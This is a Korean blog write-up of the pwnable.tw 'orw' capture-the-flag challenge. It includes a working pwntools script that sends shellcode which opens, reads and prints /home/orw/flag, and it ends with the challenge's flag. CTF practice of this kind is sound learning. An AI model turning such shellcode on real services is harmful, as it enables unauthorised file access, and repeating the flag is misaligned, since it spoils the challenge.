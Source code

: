 ```yaml
---
layout: post
title: "[pwnable.tw] orw 풀이"
date: 2018-05-30 04:44
categories: "[Pwn]pwnable.tw"
tags: rotles98
---
```

>## orw [100 pts]
### Read the flag from `/home/orw/flag`.
### Only `open` `read` `write` syscall are allowed to use.
### `nc chall.pwnable.tw 10001`
### [orw](https://pwnable.tw/static/chall/orw)

- - -
# 0x00. 분석

{: refdef: style="text-align: center;"}
![file](/img/pwnable.tw/orw/01.png)
{: refdef}

32bit에 canary가 걸려있네여.

{: refdef: style="text-align: center;"}
![IDA](/img/pwnable.tw/orw/02.png)
{: refdef}

IDA로 열어보면 쉘코드를 달라합니다아.

문제를 다시 보면 `open`, `read`, `write`를 쓰라고 하네여.

- - -
# 0x01. 공격 방법

1. `open` : `/home/orw/flag`

2. `read` : `open`한 파일 읽기

3. `write` : `read`한 내용 출력

간단간단 합니다.

이제 쉘코드를 만들어 보내면 끝인데 `pwntools`의 `shellcraft`를 사용하겠습니다.

[<U>이 사이트</U>](https://docs.pwntools.com/en/stable/)를 뒤져보면 `pwntools`의 `shellcraft` 사용법도 나옵니다!

- - -
# 0x02. 익스플로잇

크기는 넉넉하게 `0x100`만큼 받았습니닷!

```python
from pwn import *
#context.log_level = "debug"

#HOST = "localhost"
HOST = "chall.pwnable.tw"
#PORT = 4444
PORT = 10001

s = remote(HOST, PORT)

elf = ELF("./orw")
#libc = ELF("./")
pause()

payload = asm(shellcraft.open("/home/orw/flag"))
payload += asm(shellcraft.read("eax", "esp", 0x100))
payload += asm(shellcraft.write(1, "esp", 0x100))

s.send(payload)

s.interactive()
```

### FLAG{sh3llc0ding_w1th_op3n_r34d_writ3}